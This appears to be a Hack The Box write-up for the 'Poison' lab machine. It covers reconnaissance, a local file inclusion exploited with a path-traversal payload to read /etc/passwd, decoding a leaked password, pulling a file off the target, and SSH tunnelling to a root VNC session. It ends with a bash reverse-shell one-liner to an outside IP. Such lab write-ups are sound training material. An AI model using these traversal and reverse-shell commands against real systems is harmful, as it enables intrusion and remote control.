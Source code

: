 # Poison [HTB](https://app.hackthebox.com/machines/132)
![poison-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/poison-01.png)


## Recon

After adding the target to my `/etc/hosts` file, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 poison.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ports-02.png)


We have two ports. Let's run a version detection scan againts them:

```bash
nmap -p 22,80 -sCV poison.htb -oN nmap.result
```

![namp-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/nmap-res-03.png)


We have the following:

+ An SSH server on port 22.
+ An Apache-2.4.29 server on port 80.

Based on the `nmap` scan we can see that the root directory of the website doesn't have a title, and it seems like the site is powered by PHP ver 5.6.32. Based on the sacn we can also guess that the the target OS is `FreeBSD`.


Let's take a closer look at the Apache server.


## Apache Port 80


If we open the site at `http://poison.htb/` we can see the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/site-04.png)


It looks like the site takes a local script as input, runs it locally, and returns the result back to us.


From the available scripts we can see a `listfiles.php` script. Let's run it:

![list-files-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/list-files-05.png)


We can see that the file name argument is sent to the server via the `file` parameter in the URL, this could pose a file inclusion vulerability. 


The response is a PHP array of the local directory listing. In the listing we see two new files that were not present in the main page, `browse.php` and `pwdbackup.txt`. 


If we run `browse.php`, it results in some of form of a memory page-fault, perhaps a buffer-overflow:

![browse-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/browse-06.png)


That's interesting, but i'm not sure exactly how to exploit this at the moment. 


If we retrive `pwdbackup.txt` we get the following:

![pwd-backup-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/pwd-backup-07.png)


We have what looks like a few different base64 encoded strings separated by a space character. But the first line of the file says that the password is encoded 13 times. How should we go about decoding this?  


At first I tried decoding each line as a seperate base64 string. This didnt work, as the outputs from the decoding started to break down and subsequent docoding attempts failed. 


Instead, I concatenated all of the individual strings into one big base64 string and saved them to a file locally. Then I used the following python script to base64 decode it 13 times:


```python
#!/usr/bin/python3

import base64 

with open('pwdbackup.txt', 'rt') as file:
    s = file.read()

for _ in range(13):
    s = base64.b64decode(s)
    s = s.decode('utf-8')

print(s)
```

Which resulted in the following:

![pass-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/pass-08.png)


This looks like a password, the question is what is the username? 


To answer this question I decided to go back to the website's scripting application. We know that we have some form of local file inclusion going on, as the application runs local files and returns the output.


So I decided to test for a local file inclusion vulnerability, specifically, I wanted to include the `/etc/passwd` file which will give us a list of valid usernames on the system. 


So i sent `../../../../etc/passwd` as the file name:

![err-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/err-09.png)


So now we know that the `browse.php` is the script that sources the local files. We can also see that the application is hardcoded to use files inside the `/usr/local/www/apache24/data` directory which is defined in the `include_path` variable. 


Therefore, we know that we need to go five levels higher in order to reach the root directory. So I added one more `../` into the file path `../../../../../etc/passwd`:

![input-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/input-10.png)


Which returned the file:

![passwd-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/passwd-11.png)


The username was actually in the password. Let's try to login to the ssh:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/shell-12.png)


Let's move to privilege escalation!


## Privilege Escalation


If we list the content's of our user's home folder we can see the following:

![list-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/list-13.png)


This zip archive (owend by root) looks interesting. If we try to `unzip` it we will notice it is password protected:

![protected-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/protected-14.png)


Let's trasnfer the file to our kali. To do this I start a python web server on the target with:

```bash
python -m SimpleHTTPServer 8000
```

And download the file from my kali using:

```bash
wget http://poison.htb:8000/secret.zip
```

![wget-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/wget-15.png)


Let's try to use the ssh password from before to open it:

![unzip-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/unzip-16.png)


It worked! 


I also ran the `file` program on it to try and identify what type of file this is. It's says its a Non-ISO extended ASCII text file, meaning there are characters outside the ASCII range (byte values ≥128) in the file. 


If we `cat` the file we can see the issue:

![cat-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/cat-17.png)


We can try to guess out the encoding of this file using the `uchardet` program:

```bash
apt install uchardet   # If not installed already
uchardet secret
```

![encoding-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/encoding-18.png)


We can try to convert this string to `utf-8` with:

```bash
iconv -f WINDOWS-1252 -t utf-8 secret
```

![iconv-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/iconv-19.png)


Unfortenatly, it's still doesn't make sense. Perhaps it's encrypted? I decided to put this file to side for now and enumerate the target some more. 


The next thing I did was to look at running processes with `ps auxww`, and that's where I saw somthing interesting:

![ps-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ps-20.png)


Looks like `root` is running a VNC server on `localhost:5901`. VNC is the Virtual Network Computing system and you can read more about it [here](https://en.wikipedia.org/wiki/Virtual_Network_Computing), but in short, it's a remote graphical desktop system, much like RDP for Windows, only VNC is platform independent.


We can verify that the VNC server is running on the target host by listing the open ports as such:

```bash
sockstat -l	# A FreeBSD way of listing open ports
```

![sockstat-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/sockstat-21.png)


There is actually two ports on which the VNC server is running on, but we primarly want to focus on port 5901 because it's owned by root. We can probably guess that the `secret` file we worked on before is the password file for the VNC connection. 


The VNC server is running on the localhost of the target but if we tunnel this traffic to our attack machine we should be able to access it locally. To do that we can use port forwarding as such:

```bash
ssh -N -L 5901:localhost:5901 charix@poison.htb
```  

![forward-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/forward-22.png)


After we supply the user's password, the shell window stalls, which is a good sign that the tunnel has been established. We can verify this by listing out the open ports on our attack machine:

![ports-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ports-23.png)


Nice! If you want a quick and easy cheet sheet for port forwarding cick [here](https://gist.github.com/billautomata/ee0572113e1496a75b03).


Now we should be able to get access to the VNC as the root user with:

```bash
vncviewer -passwd secret localhost::5901
```

![success-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/success-24.png)


Which opens up the following (tiny) window:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/root-25.png)


Although it's hard to read because the font is so small, this is in fact a root shell! 

From here we can run something like `bash -i >& /dev/tcp/10.10.14.58/9001 0>&1` to give ourselfes a proper shell, if we want.  
